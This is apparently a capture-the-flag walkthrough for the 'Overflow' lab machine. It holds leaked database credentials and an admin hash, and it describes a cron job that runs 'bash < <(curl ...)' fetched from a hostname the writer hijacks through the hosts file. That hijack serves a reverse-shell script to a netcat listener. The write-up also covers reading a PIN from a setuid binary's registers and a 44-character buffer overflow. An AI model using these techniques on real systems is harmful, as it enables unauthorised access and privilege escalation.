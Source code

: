 ```bash
mysql -D'Overflow' -u'developer' -p'sh@tim@n' -e'select * from users;'
# +----------+----------------------------------+
# | username | password                         |
# +----------+----------------------------------+
# | admin    | c71d60439ed5590b3c5e99d95ed48165 |
# +----------+----------------------------------+
```

`/var/www//devbuild-job/config/db.php`:

```php
$lnk = mysqli_connect("localhost","dev_manager", "3RyxKah_hBf*V6ja","develop");
```

## developer to tester

Check whats going on with pspy

- Create task.sh on ur attacking machine that when ran it creates a reverse connection to u
- spin ur python web server on port 80
- set ur attacking IP to resolve taskmanage.overf*** on overflow's host file
- start netcat listener and wait a minute for tester to connect 😀

## Escalation

```bash
cat /opt/commontask.sh
# bash < <(curl -s http://taskmanage.overflow.htb/task.sh)
ls -lah /opt/file_encrypt/
# total 24K
# drwxr-x---+ 2 root root 4.0K Sep 17 21:56 .
# drwxr-xr-x  3 root root 4.0K Sep 17 21:56 ..
# -rwsr-xr-x  1 root root  12K May 31 08:41 file_encrypt
# -rw-r--r--  1 root root  399 May 30 14:59 README.md
cat /opt/file_encrypt/README.md 
# Our couple of reports have been leaked to avoid this. We have created a tool to encrypt your reports. Please check the pin feature of this application and report any issue that you get as this application is still in development. We have modified the tool a little bit that you can only use the pin feature now. The encrypt function is there but you can't use it now.The PIN should be in your inbox
crontab -l -u tester
# # m h  dom mon dow   command
# * * * * * bash /opt/commontask.sh
```

i have the `file_encrypt`, not sure where im getting the PIN from or is this a disassemble/RE kinda thing with a buffer overflow (hence the name)???

there is a function in the program called random which generates the pin, if you break at it and step until the end you can read registers and grab the pin from eax

random+57 its almost the end of random function

the pin -202976456 is valid and after that there is an scanf that triggers a buffer overflow after 44 characters
